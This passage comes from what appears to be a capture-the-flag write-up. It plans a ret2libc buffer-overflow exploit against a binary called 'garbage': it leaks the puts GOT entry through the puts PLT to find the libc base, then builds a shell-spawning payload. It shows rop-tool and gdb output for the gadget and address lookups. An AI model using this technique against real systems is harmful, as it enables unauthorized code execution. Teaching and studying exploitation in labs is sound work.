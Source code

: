 I’m going to do this in two stages. At the start, I only know the addresses of the functions in the PLT. So I will use one of those, `puts`, to leak the address of one of the functions from the GOT. Then, I can use that to find the libc base address in the current program. On returning from that `puts`, I’ll have it return to the main program, which I’ll overflow again. This time, knowing the libc address space, I can do a normal return to libc attack. I’ll construct a payload to run a shell.

If you’re not comfortable with PLT and GOT, you should check out [this video from LiveOverflow](https://www.youtube.com/watch?v=kUk5pw4w0h4&vl=en).

### Collect Addresses

For stage one, I’m going to call puts to leak the address. I’ll need the puts PLT address to call, a `pop rdi` gadget to load something into RDI to `put`, and the `put` GOT address (the value that I’m leaking).

#### pop rdi

To get the `pop rdi` gadget, I’ll use [rop-tool](https://github.com/t00sh/rop-tool).

```

root@kali# rop-tool gadget garbage | grep rdi
 0x000000000040179b -> pop rdi; ret ; 

```

#### puts PLT and GOT

I need the `puts` PLT address. This is the address I’ll see in the main code when I run `disassemble main` in `gdb`:

```

gdb-peda$ disassemble main
Dump of assembler code for function main:
...[snip]...
   0x000000000040164a <+49>:    lea    rdi,[rip+0xb3f]        # 0x402190
   0x0000000000401651 <+56>:    call   0x401050 <puts@plt>

```

I also need the address in the GOT for `puts`. This will hold the pointer to `puts` in libc, and is what I want to leak. If I run `disassemble [plt address]`, I can see the code there:

```

gdb-peda$ disassemble 0x401050
Dump of assembler code for function puts@plt:
   0x0000000000401050 <+0>:     jmp    QWORD PTR [rip+0x2fd2]        # 0x404028 <puts@got.plt>
   0x0000000000401056 <+6>:     push   0x2
   0x000000000040105b <+11>:    jmp    0x401020
End of assembler dump.

```

And that code shows the GOT address, 0x404028.
